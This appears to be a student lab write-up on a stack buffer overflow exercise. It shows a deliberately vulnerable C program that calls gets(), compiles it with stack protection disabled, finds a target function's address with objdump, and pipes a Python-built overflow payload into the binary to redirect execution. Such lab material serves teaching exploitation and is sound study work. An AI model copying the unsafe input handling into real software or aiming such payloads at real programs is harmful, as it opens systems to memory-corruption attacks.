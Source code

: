 # I. Buffer overflow attack

> Conduct on bof1.c, bof2.c, bof3.c programs.

## 1. Conduct on bof1.c program

```c
#include<stdio.h>
#include<unistd.h>
void secretFunc(){
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

> ***Target***: call the function `secretFunc()` to print `Congratulation`.
> ***Method***: pass in a large amount of data to overflow the return address on the stack, then convert it to the address of the function `secretFunc()`.

### Compile source code with `gcc` (without protections):

```bash
gcc -g -m32 bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

![image-20240924164647587](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20240924164647587.png)

Thus, the executable file bof1.out has been created and is ready for debugging. However, there is a warning that the `gets(array)` function is unsafe.

> `gets()` is a very old function to collect user input data, but it does not control the length of the data, so it is very easy to buffer overflow.

### Determine the address of `secretFunc()`:

Using `objdump` to find the address:

```bash
objdump -d bof1.out | grep secretFunc
```

![image-20240924165724104](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20240924165724104.png)

So we know the address of `secretFunc()` is `0x0000bd11`

Load the program into `gdb`:

```bash
gdb bof1.out
```

```
echo $(python3 -c "print('a' * 208 + '\xbd\x11\x00\x00')") | ./bof1.out
```
